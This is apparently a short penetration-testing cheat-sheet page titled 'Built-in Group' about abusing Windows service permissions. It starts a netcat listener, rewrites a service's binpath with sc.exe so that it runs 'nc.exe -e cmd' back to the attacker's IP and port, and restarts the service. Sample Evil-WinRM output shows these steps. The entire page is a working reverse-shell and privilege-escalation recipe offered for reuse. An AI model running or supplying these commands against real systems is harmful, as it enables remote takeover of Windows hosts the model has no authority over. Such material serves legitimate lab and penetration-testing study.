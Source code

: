 ```yaml
---
title: "Built-in Group"
date: 2025-7-25
tags: ["Built-In Group", "Windows", "Windows Service"]
---
```


#### Abuse #1. Modify Service Path

```console
# Start a nc listener
rlwrap nc -lvnp <LOCAL_PORT>
```

```console {class="sample-code"}
$ rlwrap nc -lvnp 443
listening on [any] 443 ...
```

{{< tab set1 tab1 >}}Windows{{< /tab >}}
{{< tabcontent set1 tab1 >}}

#### 1. Change Service Path

```console
# Assumed nc.exe is uploaded
sc.exe config <SERVICE> binpath="C:\ProgramData\nc.exe -e cmd <LOCAL_IP> <LOCAL_PORT>"
```

```console {class="sample-code"}
*Evil-WinRM* PS C:\ProgramData> sc.exe config VSS binpath="C:\ProgramData\nc.exe -e cmd 10.10.14.44 443"
[SC] ChangeServiceConfig SUCCESS
```

#### 2. Restart Service

```console
# Stop service
sc.exe stop <SERVICE>
```

```console {class="sample-code"}
*Evil-WinRM* PS C:\windows\tasks> sc.exe stop VSS
[SC] ControlService FAILED 1062:

The service has not been started.
```

```console
# Start service
sc.exe start <SERVICE>
```

```console {class="sample-code"}
*Evil-WinRM* PS C:\windows\tasks> sc.exe start VSS
[SC] StartService FAILED 1053:

The service did not respond to the start or control request in a timely fashion.
```

{{< /tabcontent >}}
